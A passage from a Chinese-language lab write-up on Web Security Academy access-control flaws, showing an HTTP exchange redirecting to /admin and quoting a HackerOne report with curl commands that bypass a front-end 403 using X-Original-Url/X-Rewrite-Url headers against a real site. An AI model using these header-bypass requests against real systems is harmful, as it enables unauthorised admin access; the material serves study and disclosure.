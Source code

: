 ```http
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a62003e03e972af80d7b7570094002e.web-security-academy.net/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6


HTTP/2 302 Found
Location: /admin
Set-Cookie: session=zhzOVZTAS3Fnla4m62rUcOqOSehkWf1a; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```

![添加参数删除用户 - 验证删除结果.png](assets/1708584081-38d365953c362b1ef140466c05218fb0.png)

在实战中还真搜到一个 hackerone 的案例，[Bypass front server restrictions and access to forbidden files and directories through X-Rewrite-Url/X-original-url header on account.mackeeper.com](https://hackerone.com/reports/737323)，300 美金，这漏洞搁国内铁定回复：无危害。😏

> Summary  
> Normally a client can't access /admin directory because of front nginx server which returns 403. But we can use X-Rewrite-Url or X-original-url because back server processes these headers and front server doesn't.
> 
> Steps to reproduce:  
> This request shows normal behavior  
> `curl -i -s -k -X $'GET' -H $'Host: account.mackeeper.com' $'https://account.mackeeper.com/admin/login'`  
> and returns 403
> 
> Here you can see how we can bypass these restrictions  
> `curl -i -s -k -X $'GET' -H $'Host: account.mackeeper.com' -H $'X-rewrite-url: admin/login' $'https://account.mackeeper.com/'`  
> and return login page
